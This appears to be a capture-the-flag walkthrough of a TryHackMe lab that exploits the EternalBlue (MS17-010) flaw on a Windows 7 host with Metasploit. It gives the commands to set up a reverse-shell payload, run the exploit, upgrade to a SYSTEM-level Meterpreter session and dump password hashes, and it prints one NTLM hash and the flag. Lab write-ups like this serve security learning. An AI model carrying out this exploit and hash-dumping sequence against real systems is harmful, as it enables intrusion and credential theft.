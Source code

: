 # Introduction: Exploring Metasploit (msfconsole)

In this section, I document my initial exploration of Metasploit using the `msfconsole` interface. This includes searching for modules, understanding the framework structure, and preparing for exploitation.

## Step 1: Launching msfconsole

The first step was to launch Metasploit using the command:

- msfconsole

This starts Metasploit and displays information about the version, modules available, and helpful tips.

## Step 2: Searching for Modules

I ran the command search eternalblue, searching for modules related to the well-known EternalBlue vulnerability, which is an SMB (Server Message Block) exploit targeting Windows systems (CVE-2017-0144).

- search eternalblue

![Capture d'écran 2024-10-17 171308](https://github.com/user-attachments/assets/050a295d-87c3-4b47-a22a-802eb9ed4f29)


### 2. Exploitation: Exploiting MS17-010 (EternalBlue)

# Exploitation: Exploiting MS17-010 (EternalBlue)

This section details how to exploit the MS17-010 vulnerability, also known as EternalBlue, on a Windows system using Metasploit.

## Step 1: Selecting the Module

After searching for EternalBlue modules, I selected:

- use exploit/windows/smb/ms17_010_eternalblue

![Capture d'écran 2024-10-17 171322](https://github.com/user-attachments/assets/b8c19cff-5458-436f-a6f3-076807008c86)


## Step 2: Configuring the Payload

After selecting the exploit, Metasploit indicates that no payload was configured explicitly, so it defaults to windows/x64/meterpreter/reverse_tcp. This is a common payload that sets up a reverse TCP shell using the Meterpreter tool, providing an interactive shell upon successful exploitation.

- set payload windows/x64/shell_reverse_tcp

I listed compatible payloads to confirm the options.

The command is used to display all compatible payloads for the selected exploit. This is useful for selecting a different payload that fits my requirements or environment.

- show payloads

I set the payload to "generic/shell_reverse_tcp" by using the command "set payload 2". This payload will establish a reverse TCP shell connection when the exploit is successful, allowing me to gain remote access to the target system.

![Capture d'écran 2024-10-17 171340](https://github.com/user-attachments/assets/beefba76-8a95-43c6-b03b-d7a55646e994)

## Step 3: Showing Options for the Exploit

The command lists all the configurable parameters required for the EternalBlue exploit: 

RHOSTS: This is a required setting where I must specify the target host’s IP address.

RPORT: The target port, which defaults to 445 (the SMB port). This is also required.

SMBDomain: An optional field for specifying the Windows domain for authentication, relevant if the target is part of a domain.

SMBPass and SMBUser: Optional parameters to specify credentials if authentication is needed for the SMB connection.

VERIFY_ARCH: This option is set to true by default and is used to verify if the target's architecture matches the exploit's requirements (affects Windows Server 2008 R2, Windows 7, and Windows Embedded Standard 7).

VERIFY_TARGET: Also set to true by default, this checks if the remote OS matches the target's requirements to ensure the exploit can run properly.

- show options

![Capture d'écran 2024-10-17 171340](https://github.com/user-attachments/assets/d549f482-ee28-4f9f-969c-f68970f3160e)

## Step 4: Configuring Module Options

Next, I set the necessary options, specifically targeting the IP address of the vulnerable machine:

- set RHOSTS 10.10.103.236 (Target IP)

  ![image](https://github.com/user-attachments/assets/7415fce0-c0e9-4bc5-b745-77df6a9ba51f)

## Step 5: Executing the Exploit

- exploit

This resulted in a successful exploit and a shell session was opened on the target: 

Metasploit provides a detailed log of the exploitation process:

Host Check: The tool uses the auxiliary/scanner/smb/smb_ms17_010 module to verify if the target is vulnerable. It confirms that the host (10.10.103.236) is indeed vulnerable, running Windows 7 Professional 7601 Service Pack 1 (64-bit).

Connecting to the Target: Metasploit establishes a connection to the target host on SMB port 445.

Sending Exploit Packets: The exploit sends fragments of malicious packets designed to overwrite the target’s SMB memory buffers:

CORE Raw Buffer Dump: Displays raw buffer data obtained from the target.

Pool Grooming: The exploit uses a technique called "non-paged pool grooming" to prepare the target's memory for the attack.

Sending SMBv2 Buffers: Metasploit sends SMB buffers and manipulates the memory to achieve code execution.

EternalBlue Overwrite: The message EternalBlue overwrite completed successfully indicates that the exploit successfully modified the target’s memory (showing the status code 0xC000000D).

![Capture d'écran 2024-10-17 171405](https://github.com/user-attachments/assets/9db39d0d-e051-4d9b-a9ca-b1202b7e1da5)


### 3. Post-Exploitation: Upgrading Shell and Dumping Password Hashes

# Post-Exploitation: Upgrading Shell and Dumping Password Hashes

In this section, I document how to upgrade a basic shell session to Meterpreter and dump password hashes from the compromised system.

## Step 1: Upgrading the Shell to Meterpreter

After gaining a basic shell, I upgraded it to Meterpreter for better control:

- background

![image](https://github.com/user-attachments/assets/43558f03-1f7d-4776-8121-4f9cdb6476d7)

I entered background to suspend the current shell session (session 1). This allows me to keep the session active but return to the main Metasploit console.

- sessions -u 1

Using the command sessions -u 1, I upgraded the basic shell session (session 1) to a Meterpreter session. This leverages the post/multi/manage/shell_to_meterpreter module, which provides more capabilities and flexibility for post-exploitation activities.

The console shows the process of starting a new handler and sending the necessary payload to the target (10.10.103.236), successfully opening a new Meterpreter session (session 2).

The sessions command displays all active sessions:

Session 1: A basic shell (shell x64/windows), showing a connection with a Windows banner.

Session 2: An upgraded Meterpreter session (meterpreter x64/windows), running as NT AUTHORITY\SYSTEM on the host (JON-PC). This indicates that I have obtained SYSTEM-level access, the highest privilege level in Windows.

I enter sessions -i 2 to start interacting with the newly opened Meterpreter session (session 2).

## Step 2: Searching and Retrieving the Flag 

Once in the Meterpreter session, I searched for the flag.txt file:

- search -f flag.txt
cat "C:\\Users\\Jon\\Documents\\flag.txt"

The flag content was retrieved successfully: THM-5455554845.

## Step 3: Dumping Password Hashes

To gather further information, I used the hashdump module to extract password hashes:

- use post/windows/gather/hashdump
- set SESSION 2
- run

The command dumped the hashes for several accounts, including the "pirate" user:

pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::

![Capture d'écran 2024-10-17 172416](https://github.com/user-attachments/assets/b26f5d0d-37e3-4531-8c2d-d05a031d196b)






